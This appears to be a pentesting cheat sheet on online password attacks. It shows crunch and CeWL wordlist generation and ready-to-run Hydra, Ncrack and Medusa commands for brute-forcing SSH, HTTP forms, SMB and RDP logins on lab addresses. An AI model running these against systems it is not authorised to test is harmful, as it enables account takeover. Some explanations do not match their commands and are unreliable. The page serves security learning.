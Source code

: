 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

> `crunch [min] [max] [characterset] -t [pattern] -o [output filename]`

```
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

> `./crunch 1 1 -p pen test lab`

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

> `./crunch 6 6 0123456789 -b 1mb -o START`

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

> `./crunch 3 3 -f charset.lst lalpha -o START -c 20`

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

> `./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@`

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

> `cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org`

## Bruteforce

### Hydra

> `hydra -l username -p passwordlist.txt [target (ip address and port)]`

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

> `hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh`

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

> `hydra -L \[username list\] -P \[password list\] 192.168.1.10 \[form parameters\]\[failed login message\]`

#### SMB Bruteforce

> `hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%282%29.png)

{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

> `ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35`

#### SMB Bruteforce

> `ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

> `medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`

